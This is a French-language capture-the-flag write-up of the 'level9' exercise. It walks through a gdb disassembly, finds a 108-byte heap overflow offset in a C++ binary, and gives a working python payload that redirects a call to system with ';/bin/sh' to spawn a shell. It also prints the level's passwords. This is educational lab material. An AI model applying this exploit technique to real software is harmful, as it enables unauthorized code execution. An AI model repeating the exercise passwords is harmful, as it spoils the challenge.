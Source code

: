 On se connecte sur le level9, ou se trouve un **binaire** <code>level9</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
> gdb -q level9
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
End of assembler dump.

(gdb) > i functions
All defined functions:

Non-debugging symbols:
0x08048464  _init
0x080484b0  __cxa_atexit
0x080484b0  __cxa_atexit@plt
0x080484c0  __gmon_start__
0x080484c0  __gmon_start__@plt
0x080484d0  std::ios_base::Init::Init()
0x080484d0  _ZNSt8ios_base4InitC1Ev@plt
0x080484e0  __libc_start_main
0x080484e0  __libc_start_main@plt
0x080484f0  _exit
0x080484f0  _exit@plt
0x08048500  _ZNSt8ios_base4InitD1Ev
0x08048500  _ZNSt8ios_base4InitD1Ev@plt
0x08048510  memcpy
0x08048510  memcpy@plt
0x08048520  strlen
0x08048520  strlen@plt
0x08048530  operator new(unsigned int)
0x08048530  _Znwj@plt
0x08048540  _start
0x08048570  __do_global_dtors_aux
0x080485d0  frame_dummy
0x080485f4  main
0x0804869a  __static_initialization_and_destruction_0(int, int)
0x080486da  _GLOBAL__sub_I_main
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
0x08048770  __libc_csu_init
0x080487e0  __libc_csu_fini
0x080487e2  __i686.get_pc_thunk.bx
0x080487f0  __do_global_ctors_aux
0x0804881c  _fini
```

Après analyse du fichier (**source.c**), on se rend compte que le programme appelle la fonction **memcpy** que nous pourront exploiter.
On commence par trouver l'offset

```gdb
(gdb) > b *main+136
Breakpoint 1 at 0x804867c
(gdb) > b *main+140
Breakpoint 2 at 0x8048680
(gdb) > b *main+142
Breakpoint 3 at 0x8048682
(gdb) > run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
Starting program: /home/user/level9/level9 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Breakpoint 1, 0x0804867c in main ()
(gdb) > p $eax
$1 = 134520844
(gdb) > p/x $eax
$2 = 0x804a00c
(gdb) > x $eax
0x804a00c:      0x41414141
(gdb) > s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x08048680 in main ()
(gdb) > x $eax
0x804a078:      0x62626262
(gdb) > s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 3, 0x08048682 in main ()
(gdb) > x $eax
0x62626262:     Cannot access memory at address 0x62626262
(gdb) > p 0x62
$3 = 98
```

98 correspond à la valeur ascii de 'b', on a donc **overflow**à partir des 'b', nous avons donc passé 27 * 4 lettres, ce qui correspond à un **offset** de 108.

> OFFSET = 108

Regardont ce qu'il se passe au retour de la fonction

```gdb
(gdb) > d 1
(gdb) > d 2
(gdb) > d 3
(gdb) > b *main+136
Breakpoint 4 at 0x804867c
(gdb) > b *main+140
Breakpoint 5 at 0x8048680
(gdb) > b *main+142
Breakpoint 6 at 0x8048682
(gdb) > run
The program being debugged has been started already.
Start it from the beginning? (y or n) > y

Starting program: /home/user/level9/level9 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Breakpoint 4, 0x0804867c in main ()
(gdb) > x $eax
0x804a00c:      0x41414141
(gdb) > ni

Breakpoint 5, 0x08048680 in main ()
(gdb) > x $eax
0x804a078:      0x62626262
(gdb) > ni

Breakpoint 6, 0x08048682 in main ()
(gdb) > x $eax
0x62626262:     Cannot access memory at address 0x62626262
(gdb)
```

On remarque que en premier lieu, notre eax pointe sur nos 'A' et que nous possédons l'adresse, et que par jeu de pointeur, 2 instructions après, nous pouvons voir que la valeur de l'addresse contenu dans eax est copier dans edx (dans notre exemple, la valeur copier est celle de nos 'b'). Nous pouvons également constater que par la suite, l'instruction situé à l'adresse contenue dans edx est call. 
Nous pouvons donc insérer l'addresse de system au niveaux de nos 'A'.
Nous pouvons indiquer l'addresse de notre insertion au niveau de nos 'b' pour qu'elle soit exécuté par le call. Les arguments lu dans la mémoire seront  les octets suivant nos 'b'. 

```gdb
(gdb) b main
Breakpoint 1 at 0x80485f8
(gdb) run
Starting program: /home/user/level9/level9

Breakpoint 1, 0x080485f8 in main ()
(gdb) p *system
$1 = {<text variable, no debug info>} 0xb7d86060 <system>
```

> SYSTEM = 0xb7d86060


<pre><code>> ./level9 `python -c 'print "\x60\x60\xd8\xb7" + "A"*104 + "\x0c\xa0\x04\x08;/bin/sh"'`
> cd ../bonus0 && cat .pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
</code></pre>

For download :
<pre><code>scp -P4242 level9@IP:level9 .</code></pre>
> Password : c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a